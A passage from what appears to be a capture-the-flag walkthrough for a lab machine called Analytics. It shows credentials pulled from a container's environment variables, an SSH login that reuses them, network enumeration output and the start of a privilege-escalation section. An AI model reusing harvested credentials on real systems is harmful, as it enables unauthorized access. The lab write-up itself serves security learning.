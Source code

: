 ```bash 
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
OLDPWD=/tmp
```


And yes, we get some credentials

```bash
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

**so next step would be to try to connect via ssh using those credentials**

```bash 
# ssh -l metalytics 10.10.11.233
metalytics@analytics:~$ whoami
metalytics
metalytics@analytics:~$ ifconfig
docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        inet6 fe80::42:8aff:fef1:8bba  prefixlen 64  scopeid 0x20<link>
        ether 02:42:8a:f1:8b:ba  txqueuelen 0  (Ethernet)
        RX packets 12674  bytes 13137616 (13.1 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 9587  bytes 2820417 (2.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.233  netmask 255.255.254.0  broadcast 10.10.11.255
        inet6 dead:beef::250:56ff:feb9:8214  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:8214  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:82:14  txqueuelen 1000  (Ethernet)
        RX packets 440816  bytes 59748451 (59.7 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 402256  bytes 274645659 (274.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```


![](./assets/images/analytics_exploit01.jpg)


## PRIV ESCALATION

I like to start with some basic enumeration commands, such as **sudo -l**, **uname -a**,....
